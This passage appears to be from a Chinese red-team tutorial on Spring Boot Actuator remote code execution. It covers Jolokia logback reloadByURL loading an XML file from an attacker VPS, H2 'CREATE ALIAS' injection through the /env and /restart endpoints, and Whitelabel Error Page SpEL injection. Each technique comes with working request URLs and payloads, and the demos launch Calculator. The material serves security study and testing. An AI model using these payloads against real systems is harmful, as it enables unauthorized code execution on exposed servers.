

修改 `jolokia-logback.xml` 并上传到 `VPS` 上。



```
`构造连接：``http://10.27.2.188:9099/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/vps-ip:8888!/jolokia-logback.xml`
```

可成功打开计算器。



  

查看 `JNDI` 的 `config.properties`，可以进行命令执行、文件写入等操作。



0x04 H2 Database Query RCE
--------------------------

`H2`是一个使用`Java`编写的数据库，支持内存、文件等多种模式，经常用于项目的测试环境。

### 4.1 漏洞原理

（1）`spring.datasource.hikari.connection-test-query`属性被设置为一条恶意的 `CREATE ALIAS`创建自定义函数的`SQL`语句。

（2）其属性对应`HikariCP`数据库连接池的`connectionTestQuery`配置，定义一个新数据库连接之前被执行的`SQL`语句。

（3）`restart`重启应用，会建立新的数据库连接。

（4）如果`SQL`语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成`RCE`漏洞。

### 4.2 利用条件

（1）可以`POST`请求目标网站的`/env`接口设置属性。

（2）可以`POST`请求目标网站的`/restart`接口重启应用（存在 spring-boot-starter- actuator 依赖）。

（3）存在`com.h2database.h2`依赖。



### 4.3 漏洞利用

抓包改变请求方式`GET→POST`，设置`spring.datasource.hikari.connection-test-query`属性为：

```
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}
```

由于环境是`Spring 2.x`版本还需要修改请求体中的`content-type`字段的值 `application/json`。





  

0x05 Whitelabel Error Page SpEL RCE
-----------------------------------

`Spring Expression Language`（简称SpEL）是一种强大的表达式语言，支持在运行时查询和操作对象图。语言语法类似于`Unified EL`，但提供了额外的功能，特别是方法调用和基本的字符串模板功能。同时因为`SpEL`是以`API`接口的形式创建的，所以允许将其集成到其他应用程序和框架中。

### 5.1 漏洞原理

（1）`spring boot`处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中。

（2）此时`URL`中的参数值会用`parseStringValue`方法进行递归解析。

（3）其中 ${} 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的`resolvePlaceholder`方法当作`SpEL`表达式被解析执行，造成`RCE`漏洞。

### 5.2 利用条件

（1）`spring boot`1.1.0-1.1.12、1.2.0-1.2.7、1.3.0。

（2）至少知道一个触发`springboot`默认错误页面的接口及参数名。

### 5.3 漏洞利用

`SpEL`使用 `#{...}` 作为定界符，所有在大括号中的字符都将被认为是`SpEL`表达式，我们可以在其中使用运算符，变量以及引用`bean`，属性和方法。



执行 `open -a Calculator` 命令：

```
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))
```



  

0x06 总结
-------

### 6.1 区分 Spring 版本

（1）对于 `Spring 1x` ，它们在根`URL`下进行注册，但在`Spring 2x`版本中将此功能移动到`“/actuator/”`的路径下。

（2）`Spring1.X`和`Spring2.X`的`POST`请求数据也存在区别，`Spring1.X`是通过`Content-Type: application/x-www-form-urlencoded`传参，`Spring2.X`是通过`Content-Type: application/json`传参。

### 6.2 Reference

_https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database_

_https://github.com/LandGrey/SpringBootVulExploit_

_https://blog.csdn.net/weixin_45551083/article/details/107443330_

_https://www.freebuf.com/column/234719.html_

### References

`[1]` JNDI: _https://github.com/su18/JNDI_

  

**推荐关注(红队方向)：**

  ** 橘猫学安全 ** 每日一干货🙂 0篇原创内容   公众号

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
